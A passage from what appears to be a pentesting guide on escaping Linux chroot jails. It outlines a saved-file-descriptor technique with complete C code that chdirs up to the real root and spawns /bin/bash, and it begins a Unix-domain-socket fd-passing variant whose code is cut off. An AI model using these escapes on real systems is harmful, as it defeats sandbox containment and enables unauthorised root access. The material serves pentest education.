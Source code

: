 1. Create a chroot environment.
2. Change directory to a path relatively outside of the chroot environment. (to reach the root file system outside of chroot environment)
3. Enter chroot to access the root file system.



#### 3 - Root + Saved fd


Similar to the previous case, but in this case the attacker stores a file descriptor to the current directory and then creates the chroot in a new folder. Finally, as he has access to that FD outside of the chroot, he access it and he escapes.

```c
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>


int main(void)
{
    mkdir("tmpdir", 0755);
    int dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(int x = 0; x < 1000; x++) chdir("..");
    chroot(".");
    system("/bin/bash");
}
```

#### 4 - Root + Fork + UDS (Unix Domain Sockets)


FD can be passed over Unix Domain Sockets, so:

- Create a child process (fork)
- Create UDS so parent and child can talk
- Run chroot in child process in a different folder
- In parent proc, create a FD of a folder that is outside of new child proc chroot
- Pass to child procc that FD using the UDS
- Child process chdir to that FD, and because it's ouside of its chroot, he will escape the jail
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/un.h>
#include <fcntl.h>
#include <errno.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/wait.h>

#define CHROOT_PATH "tmpdir"  // Directory for chroot

// Function to send FD over socket
void send_fd(int socket, int fd) {
    struct msghdr msg = {0};
    struct cmsghdr *cmsg;
```